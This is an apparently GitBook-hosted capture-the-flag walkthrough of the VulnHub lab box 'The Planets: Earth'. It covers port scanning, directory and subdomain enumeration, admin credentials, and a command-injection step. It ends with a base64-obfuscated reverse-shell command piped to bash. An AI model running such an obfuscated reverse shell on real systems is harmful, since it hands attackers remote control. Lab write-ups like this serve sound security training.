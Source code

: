 # The Planets: Earth

{% embed url="https://www.vulnhub.com/entry/the-planets-earth,755/" %}

#### Description

[Back to the Top](https://www.vulnhub.com/entry/the-planets-earth,755/#top)

Difficulty: Easy

Earth is an easy box though you will likely find it more challenging than "Mercury" in this series and on the harder side of easy, depending on your experience. There are two flags on the box: a user and root flag which include an md5 hash. This has been tested on VirtualBox so may not work correctly on VMware. Any questions/issues or feedback please email me at: SirFlash at protonmail.com, though it may take a while for me to get back to you.

## Information Gathering

Scanned all TCP ports:

<pre><code><strong>PORT    STATE SERVICE
</strong><strong>22/tcp  open  ssh
</strong>80/tcp  open  http
443/tcp open  https
MAC Address: 00:0C:29:E0:11:D1 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6, Linux 5.0 - 5.4
Uptime guess: 13.975 days (since Wed Apr  5 22:47:51 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=262 (Good luck!)
22/tcp  open  ssh      OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 5b2c3fdc8b76e9217bd05624dfbee9a8 (ECDSA)
|_  256 b03c723b722126ce3a84e841ecc8f841 (ED25519)
80/tcp  open  http     Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
|_http-title: Bad Request (400)
443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
| tls-alpn: 
|_  http/1.1
|_http-title: Test Page for the HTTP Server on Fedora
| ssl-cert: Subject: commonName=earth.local/stateOrProvinceName=Space
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
| Issuer: commonName=earth.local/stateOrProvinceName=Space
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-10-12T23:26:31
| Not valid after:  2031-10-10T23:26:31
| MD5:   4efa65d21a9e07184b5441da3712f187
|_SHA-1: 04db5b29a33f8076f16b8a1b581d6988db257651
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
MAC Address: 00:0C:29:E0:11:D1 (VMware)
</code></pre>

Enumerated UDP ports:

```
No results // filtered
```

Notes:

* 80/443 and 22 provides an entry point
* Obtained unique subdomain through certificates:

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```
earth.local terratest.earth.local
```

* Added to /etc/hosts

## Enumeration

### Port 80 & 443 - HTTP/s (Apache httpd 2.4.51)

* Be sure to test both earth.local and terratest.earth.local

#### Directory Bruteforce

#### earth.local

```
dirsearch -u http://earth.local

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/xyconix/.dirsearch/reports/earth.local/_23-04-19_23-07-06.txt

Error Log: /home/xyconix/.dirsearch/logs/errors-23-04-19_23-07-06.log

Target: http://earth.local/

[23:07:06] Starting: 
[23:07:11] 301 -    0B  - /admin  ->  /admin/
[23:07:11] 200 -  306B  - /admin/
[23:07:11] 200 -  306B  - /admin/?/login
[23:07:11] 200 -  746B  - /admin/login
[23:07:15] 403 -  199B  - /cgi-bin/

```

#### terratest.earth

```
dirsearch -u https://terratest.earth.local

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/xyconix/.dirsearch/reports/terratest.earth.local/_23-04-19_22-20-43.txt

Error Log: /home/xyconix/.dirsearch/logs/errors-23-04-19_22-20-43.log

Target: https://terratest.earth.local/

[22:20:43] Starting: 
[22:20:44] 403 -  199B  - /.ht_wsr.txt
[22:20:44] 403 -  199B  - /.htaccess.orig
[22:20:44] 403 -  199B  - /.htaccess.bak1
[22:20:44] 403 -  199B  - /.htaccess.save
[22:20:44] 403 -  199B  - /.htaccess.sample
[22:20:44] 403 -  199B  - /.htaccess_orig
[22:20:44] 403 -  199B  - /.htaccessOLD2
[22:20:44] 403 -  199B  - /.htaccess_extra
[22:20:44] 403 -  199B  - /.htaccess_sc
[22:20:44] 403 -  199B  - /.htaccessOLD
[22:20:44] 403 -  199B  - /.htaccessBAK
[22:20:44] 403 -  199B  - /.htm
[22:20:44] 403 -  199B  - /.html
[22:20:44] 403 -  199B  - /.htpasswds
[22:20:44] 403 -  199B  - /.httr-oauth
[22:20:44] 403 -  199B  - /.htpasswd_test
[22:20:51] 403 -  199B  - /cgi-bin/
[22:20:55] 200 -   26B  - /index.html
[22:21:01] 200 -  521B  - /robots.txt
```

* We see <mark style="color:yellow;">robots.txt</mark> and <mark style="color:yellow;">.ht\_wsr.txt</mark>



#### Subdomain Enumeration

```
ffuf -u https://earth.local -H "Host: FUZZ.earth.local" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://earth.local
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.earth.local
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

:: Progress: [4989/4989] :: Job [1/1] :: 110 req/sec :: Duration: [0:00:45] :: Errors: 0 ::
```

earth.local/admin credentials: `terra:earthclimatechangebad4humans`

## Exploitation

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

* Tried simply placing a bash shell but it would not accept outbound connections
* This means some sort of filtering is occuring
* Let's use a trick we remembered from an OSCP box to URL code the reverse shell locally and reproduce it on the server end

### Command Injection on earth.local/admin/

```
echo -e 'L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTI2LzEzMzcgMD4mMQo=' | base64 -d | bash
```
